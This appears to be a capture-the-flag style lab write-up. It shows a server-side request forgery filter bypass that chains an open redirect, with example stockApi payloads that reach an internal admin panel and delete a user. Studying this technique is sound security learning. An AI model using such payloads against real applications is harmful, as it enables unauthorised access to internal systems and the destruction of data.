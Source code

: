 ![image](https://user-images.githubusercontent.com/67979878/128312134-431e914a-ba3c-4804-adfa-d7a6ae5f7c95.png)


and resposne 

![image](https://user-images.githubusercontent.com/67979878/128312229-8d5d1b4e-33a0-45fe-a962-c8720451242b.png)

so this is not a redirection .

but next product option request is :
![image](https://user-images.githubusercontent.com/67979878/128312366-15409416-2ea3-43f2-8de1-e41f8b34e5d1.png)

this is a redirection response let's play with it .

![image](https://user-images.githubusercontent.com/67979878/128312631-22fc75a9-11ce-4a34-b5d1-7def6e6c4bbd.png)

let's delete carlos :) 
```
we can't make this action from next product redirection page beacuse it will redirect us to 192.168.0.12 and we can't display it ,

so we can use this  to check response found and use this in the stockApi
```
now we can write a url redirect the stockApi to the page we want 

` /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`

![image](https://user-images.githubusercontent.com/67979878/128313777-ffaca42a-8c7e-405c-b76e-10dc5e4be3ad.png)

````

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin

This SSRF exploit works because the application first validates that the supplied stockAPI URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.


````
